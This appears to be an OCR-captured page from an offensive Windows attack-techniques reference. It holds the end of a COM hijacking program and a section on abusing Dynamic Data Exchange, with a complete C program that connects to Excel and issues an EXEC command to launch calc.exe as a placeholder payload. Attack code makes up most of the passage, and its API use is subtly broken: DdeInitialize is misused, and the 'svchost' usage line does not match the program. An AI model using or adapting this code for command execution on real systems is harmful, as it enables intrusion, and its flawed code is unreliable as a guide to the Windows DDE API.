 ```
        printf("Failed to set COM Hijacking.\n");
    }
    return 0;
}
```

### Dynamic Data Exchange

Using DDE to execute commands via svchost

```
dde_attack.exe svchost.exe
```



Dynamic Data Exchange (DDE) is an older interprocess communication system that allows two running applications to share the same data. DDE can be abused to execute arbitrary commands, and it has been used in the past as a method for command execution in Microsoft Office documents.

```
#include <windows.h>
#include <stdio.h>

int main() {
    // DDE requires a window to be created for message handling
    HWND hwnd = CreateWindowEx(0, "STATIC", "DDE Command Execution", 0, 0, 0, 0, 0, HWND_MESSAGE, NULL, NULL, NULL);
    if (!hwnd) {
        printf("Failed to create window for DDE.\n");
        return 1;
    }

    // Initialize DDE
    UINT uDDEInit = DdeInitialize(NULL, NULL, APPCLASS_STANDARD | APPCMD_CLIENTONLY, 0);
    if (uDDEInit != DMLERR_NO_ERROR) {
        printf("Failed to initialize DDE.\n");
        return 1;
    }

    // Connect to a DDE service (e.g., Excel)
    HSZ hszService = DdeCreateStringHandle(uDDEInit, "Excel", CP_WINANSI);
    HSZ hszTopic = DdeCreateStringHandle(uDDEInit, "System", CP_WINANSI);
    HCONV hConv = DdeConnect(uDDEInit, hszService, hszTopic, NULL);

    if (!hConv) {
        printf("Failed to connect to DDE service.\n");
        DdeUninitialize(uDDEInit);
        return 1;
    }

    // Execute a command via DDE (for demonstration purposes, let's open Calculator)
    HSZ hszCommand = DdeCreateStringHandle(uDDEInit, "[EXEC(\"calc.exe\")]", CP_WINANSI);
    if (!DdeClientTransaction(NULL, 0, hConv, hszCommand, CF_TEXT, XTYP_EXECUTE, TIMEOUT_ASYNC, NULL)) {
        printf("Failed to execute DDE command.\n");
    }

    // Cleanup
    DdeFreeStringHandle(uDDEInit, hszService);
    DdeFreeStringHandle(uDDEInit, hszTopic);
    DdeFreeStringHandle(uDDEInit, hszCommand);
    DdeDisconnect(hConv);
    DdeUninitialize(uDDEInit);
    DestroyWindow(hwnd);

```